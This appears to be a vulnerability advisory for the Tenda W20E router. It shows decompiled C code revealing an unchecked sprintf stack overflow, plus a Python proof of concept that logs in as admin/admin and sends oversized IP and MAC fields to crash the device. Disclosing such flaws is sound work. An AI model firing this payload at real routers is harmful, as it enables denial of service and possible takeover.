 # Tenda W20E

### version

```
V15.11.0.6 （US_W20EV4.0br_V15.11.0.6（1068_1546_841）_CN_TDC）
```

### Firmware

```
https://www.tenda.com.cn/download/detail-2707.html
```



## modifyIpMacBind

### detail

In function formIPMacBindModify,the content obtained by the program from the parameter "IPMacBindRuleIp" and"IPMacBindRuleMac" are passed to ip and mac.Then the ip and mac are directly copied into the tmp stack through the sprintf function.There is no size check, so there is a stack overflow vulnerability.The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.

```c
void __cdecl formIPMacBindModify(webs_t wp, unsigned __int8 *path, unsigned __int8 *query)
{
  int v3; // r0
  int v4; // r0
  int v5; // r0
  int v6; // r0
  int v7; // r0
  unsigned __int8 mibName[128]; // [sp+24h] [bp-618h] BYREF
  unsigned __int8 ruleId[128]; // [sp+A4h] [bp-598h] BYREF
  unsigned __int8 msg[512]; // [sp+124h] [bp-518h] BYREF
  unsigned __int8 tmp[512]; // [sp+324h] [bp-318h] BYREF
  unsigned __int8 slctLst[128]; // [sp+524h] [bp-118h] BYREF
  unsigned __int8 out[128]; // [sp+5A4h] [bp-98h] BYREF
  int index; // [sp+624h] [bp-18h]
  unsigned __int8 *remark; // [sp+628h] [bp-14h]
  unsigned __int8 *mac; // [sp+62Ch] [bp-10h]
  unsigned __int8 *ip; // [sp+630h] [bp-Ch]
  unsigned __int8 *ruleIndex; // [sp+634h] [bp-8h]

  *(_DWORD *)out = 49;
  memset(&out[4], 0, 0x7Cu);
  *(_DWORD *)slctLst = 0;
  memset(&slctLst[4], 0, 0x7Cu);
  *(_DWORD *)tmp = 0;
  memset(&tmp[4], 0, 0x1FCu);
  *(_DWORD *)msg = 0;
  memset(&msg[4], 0, 0x1FCu);
  ruleIndex = 0;
  ip = 0;
  mac = 0;
  remark = 0;
  ruleIndex = websGetVar(wp, "IPMacBindRuleId", "0");
  ip = websGetVar(wp, "IPMacBindRuleIp", "000:000:000:000");
  mac = websGetVar(wp, "IPMacBindRuleMac", "00:00:00:00:00:00");
  remark = websGetVar(wp, "IPMacBindRuleRemark", "hello");
  index = 0;
  *(_DWORD *)ruleId = 0;
  memset(&ruleId[4], 0, 0x7Cu);
  *(_DWORD *)mibName = 0;
  memset(&mibName[4], 0, 0x7Cu);
  v3 = atoi((const char *)ruleIndex);
  sprintf((char *)mibName, "security.ipbind.list%d", v3 + 1);
  GetValue((int)mibName, (int)slctLst);
  getKeyfrmLst(slctLst, ";", 0, ruleId);
  v4 = atoi((const char *)ruleIndex);
  listRm(IPMAC_BIND, v4 + 1);
  v5 = atoi((const char *)ruleId);
  sprintf(
    (char *)tmp,
    "%s;1;%s;%s;name%d;%s",
    (const char *)ruleId,
    (const char *)ip,
    (const char *)mac,
    v5,
    (const char *)remark);
  v6 = atoi((const char *)ruleIndex);
  ipmacBindRuleAdd(tmp, v6 + 1);
  listNumAdd("security.ipbind.list", 1);
  sprintf((char *)msg, "op=%d", 6);
  v7 = send_msg_to_netctrl(11, msg);
  CommitCfm(v7);
  outputToWebs(wp, out);
}
```



### poc

```python
import requests

cmd  = b'IPMacBindRuleId=' + b'9' 
cmd += b'&IPMacBindRuleIp=' + b'A' * 1000
cmd += b'&IPMacBindRuleMac=' + b'B' * 1000
cmd += b'&IPMacBindRuleRemark=' + b'A' * 500
cmd += b'&staticRouteWAN=' + b'A' * 20

url = b"http://192.168.0.1/login/Auth"
payload = b"http://192.168.0.1/goform/modifyIpMacBind/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()
```

